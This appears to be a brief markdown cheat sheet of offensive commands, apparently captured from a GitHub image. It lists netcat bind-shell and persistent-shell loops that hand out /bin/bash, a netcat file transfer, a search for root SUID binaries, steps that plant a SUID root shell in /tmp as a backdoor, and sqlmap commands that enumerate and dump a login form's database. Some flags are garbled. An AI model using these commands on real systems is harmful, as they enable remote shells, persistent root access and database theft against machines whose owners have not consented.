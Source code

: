 Connect

```
nc -vn 10.0.0.1 4444
```

Send a shell from Listener

```
nc -lnpv 4444  -e /bin/bash
```

Send (content of) file 

```
nc -lnvp 4444 < <FILE>
```

Persistent shell

```
while [ 1 ]; do echo "started"; nc lnp 4444 -e /bin/bash; done
```

## Find

Find files with SETUID flag, owned by root (files that can executed with root priv)

```
find / -uid 0 -type f -perm -4000 2> /dev/null
```

Preserving root

```
$ cp /bin/sh /tmp/backdoor
$ sudo chown root:root /tmp/backdoor
$ sudo chmod 4755 /tmp/backdoor
$ /tmp/backdoor –p
```

## Sqlmap

```
sqlmap -u "https://example.com/login" --data "username=1&password=2" --dbs
sqlmap -u "https://example.com/login" --data "username=1&password=2" -D db_example --tables
sqlmap -u "https://example.com/login" --data "username=1&password=2" -D db_example -T table_example --columns
sqlmap -u "https://example.com/login" --data "username=1&password=2" -D db_example -T table_example --dump
```